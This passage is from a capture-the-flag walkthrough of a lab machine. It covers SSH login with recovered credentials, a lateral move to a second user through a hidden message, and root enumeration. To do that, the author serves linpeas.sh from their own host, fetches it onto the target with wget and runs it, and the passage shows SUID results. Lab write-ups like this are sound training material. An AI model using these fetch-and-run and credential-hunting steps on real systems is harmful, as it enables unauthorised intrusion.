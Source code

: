 ```

With decrypting it **we get eli's credentials** probably to ssh

log in with ```ssh eli@10.10.100.98``` and input her/his password  
### Privilege Escalation Horizontal
In her /home directory we see basic directories like Pictures, Videos, Music etc. It seems there's no  flag straight up  
I'm going to expect that the user flag is located in some ```user.txt``` file. I'll find it with ```find``` command

```find / -type f -name 'user.txt' 2> /dev/null```  
We find that it's located in ```/home/gwendoline/user.txt``` so it's completely different user!  
I'm stuck again... after one hour and logging again to ssh I've noticed that there's **ssh banner** that is definetely not the default one!

```
1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE

```

We can find it again - using ```find``` But I'll doing it with ```locate``` now

```$ locate s3cr3t ```
```
/usr/games/s3cr3t
/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
/var/www/html/sup3r_s3cr3t_fl4g.php
```
So we see that there's even hidden file with message.
Reading it we get **password for the gwendoline user**  
**In his /home directory we see user.txt flag**

### Privilege Escalation Vertical

I'll be transfering linpeas.sh script for privesc by:

```python -m http.server 8080``` where you have linpeas.sh located.  
I want to wget get this file to /tmp directory, so I'll cd into that  
```cd /tmp```

```wget http://<YOUR_THM_IP>:8080/linpeas.sh```  
```chmod +x linpeas.sh```  
```./linpeas.sh  ```
```
====================================( Interesting Files )=====================================
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
strace Not Found
-rwsr-xr-x 1 root   root       9.9K Feb 24  2014 /usr/lib/eject/dmcrypt-get-device
-rwsr-sr-x 1 root   root       9.9K Apr  1  2014 /usr/bin/X
-rwsr-sr-x 1 daemon daemon      55K Sep 30  2014 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root   root       143K Oct  5  2014 /bin/ntfs-3g  --->  Debian9/8/7/Ubuntu/Gentoo/others/Ubuntu_Server_16.10_and_others(02-2017)
-rwsr-xr-x 1 root   root        14K Oct 15  2014 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
-rwsr-xr-x 1 root   root        31K Nov  8  2014 /bin/fusermount
-rwsr-xr-x 1 root   root        74K Nov 20  2014 /usr/bin/gpasswd
-rwsr-xr-x 1 root   root        44K Nov 20  2014 /usr/bin/chsh
-rwsr-xr-x 1 root   root        53K Nov 20  2014 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root   root        39K Nov 20  2014 /usr/bin/newgrp  --->  HP-UX_10.20